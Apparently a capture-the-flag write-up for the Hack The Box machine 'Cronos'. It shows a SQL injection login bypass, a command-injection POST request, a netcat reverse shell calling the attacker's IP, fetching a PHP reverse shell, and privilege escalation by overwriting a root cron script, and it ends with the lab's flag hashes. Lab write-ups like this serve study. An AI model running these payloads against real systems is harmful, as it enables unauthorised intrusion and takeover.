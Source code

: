 # 10.10.10.13 - cronos 
## port 80 open

## port 53 dns open
### zone transfer using the box name cronos.htb
- add the following to /etc/hosts file
```
cronos.htb.
admin.cronos.htb.
ns1.cronos.htb.        
www.cronos.htb.
```

### cronos.htb. / www.cronos.htb.
- Links on the website all go to real active websites 
	* laravel

### admin.cronos.htb.
- login page 
	* cant tell if the ad on the page is supposed to be there
- WE HAVE A SQL INJECTION
- Fairly simple actually
	* reading the web app penetration testers book is helping out
```
admin' or 1=1; -- -
```

### ns1.cronos.htb.
- brings back to the apache default page
	* going to gobust just incase

## admin.cronos.htb - SQLi admin login
- brought to a page that executes ping and trace route with the ip address of a server
	* burpsuite and see if I can change the command executed

### POC
```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb.
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://admin.cronos.htb./welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Connection: close
Cookie: PHPSESSID=1877au2gpjt18cjc876fitt4l2
Upgrade-Insecure-Requests: 1

command=which+nc&host=10.10.14.19
```
- Able to cat /etc/passwd
- Changed the command in the post request

```
	<input type="text" name="host" value="8.8.8.8"/>
	<input type="submit" value="Execute!"/>
	</form>
			/bin/nc<br>
		      <p><a href = "logout.php">Sign Out</a></p>
   </body>
```
- Can see that nc exists as a poc to reach out for a reverse shell

```
nc -e /bin/sh 10.10.14.19 1985
```
- and just listen on the port and we should get a shell
	* Url encoded 3 times and it failed - unable to reach out via nc

### php reverse shell
- try to wget a test file using python simplehttp
	* Successful in grabing and locating the text.txt file under admin.cronos.htb.
- Successful in grabbing rev-shell.php and executing for reverse shell 

## User - www-data

#### Steps to get a normal acting shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z 
stty raw -echo
fg

export TERM=screen
stty rows # columns #

```
- used wget to grab LinEnum.sh onto the webserver and ran it
	* User trying to priv esc too is noulis
	* is part of sudoers
```
d=1000(noulis) gid=1000(noulis) groups=1000(noulis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
```
- Look through the files of cronos.htb. and see if there are any passwords or leverage
- Looking though the linenum there is a crontab running every minute - hence the name of the box
```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

```
## WIN
- Because the file artisan is being run as user ROOT using PHP as the command to run the file as I can copy over the original artisan file with a php reverse shell and wait for crontab to run the file on the passing minute
	* easy win

### user.txt
```
root@cronos:/home/noulis# cat user.txt 
51d236438b333970dbba7dc3089be33b
```
### root.txt
```
root@cronos:~# cat root.txt 
1703b8a3c9a8dde879942c79d02fd3a0

```
